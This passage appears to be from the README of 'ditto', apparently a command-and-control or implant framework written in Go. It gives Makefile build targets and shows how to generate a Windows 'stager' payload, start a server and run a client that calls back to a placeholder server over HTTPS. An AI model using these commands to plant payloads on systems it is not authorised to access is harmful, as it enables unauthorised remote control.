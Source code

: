 ```bash
go run main.go --mode client \
    --callback https://your-server.com:8443
```

---

## Makefile Commands (Optional)

The Makefile provides convenience commands for building:

```bash
# Build binary
make build

# Build for specific platforms
make build-windows    # Windows executable
make build-linux      # Linux executable
make build-darwin     # macOS executable
make build-all        # All platforms

# Clean build artifacts
make clean

# Run tests
make test

# Install to $GOPATH/bin
make install
```

**Note**: Make is **optional**. You can use `go run` or `go build` directly.

---

## Build vs Run

### Option 1: Run Directly (No Build Required)

```bash
# Generate payload
go run main.go --mode generate --payload stager --os windows

# Start server
go run main.go --mode server

# Connect client
go run main.go --mode client --callback https://server.com:8443
```

### Option 2: Build First (Faster)

```bash
# Build binary
make build
# or
go build -o bin/ditto .

# Use binary
./bin/ditto --mode generate --payload stager --os windows
./bin/ditto --mode server
./bin/ditto --mode client --callback https://server.com:8443
```
